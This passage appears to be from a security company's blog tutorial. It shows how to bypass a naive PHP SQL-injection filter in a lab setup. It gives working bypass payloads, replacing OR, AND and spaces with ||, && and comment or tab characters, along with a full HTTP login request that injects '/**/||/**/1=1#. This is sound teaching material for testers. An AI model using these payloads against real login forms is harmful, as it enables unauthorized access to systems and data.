 As we can see, there is an admin site to which we do not have access and
a normal site where our test cases are.

<cta-banner
  buttontxt="Read more"
  link="/solutions/ethical-hacking/"
  title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>

## SQLi bypass attacks

There are three test cases; the first one is the simplest. It filters
the `OR|AND` keywords and also the space character.

**First SQLi filter.**

``` PHP
if(preg_match('/or|and| /i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
```

The username is not injectable because it uses a prepared statement
(this was intended to show the correct way of doing queries). If we put
any of those characters into the query, it should respond with a `Wrong`
alert.

To bypass this, we need to substitute those keywords: the `OR` keyword
with the double pipe character `||`, and the `AND` keyword with the
double ampersand character `&&`. In this case, we need to `URL encode`
it because of the content type of the web application resulting in
`%26%26`. Finally, the space character can be bypassed using several
substitutions, such as the following:

1. The block comment `/**/`

2. The ascii `%09` horizontal tab character

3. The ascii `%0a` new line character

4. The ascii `%0b` vertical tab character

5. The ascii `%0c` new page character

6. The ascii `%0d` carriage return character

So, our well known SQLi payload will change to something like
`'/**/||/**/1=1#`

**first bypass.**

``` text
    POST /code/one.php HTTP/1.1
    Host: 192.168.56.2
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 44
    Origin: http://192.168.56.2
    Connection: close
    Referer: http://192.168.56.2/code/one.php
    Upgrade-Insecure-Requests: 1

    user=admin&password='/**/||/**/1%3d1%23&s=OK
```
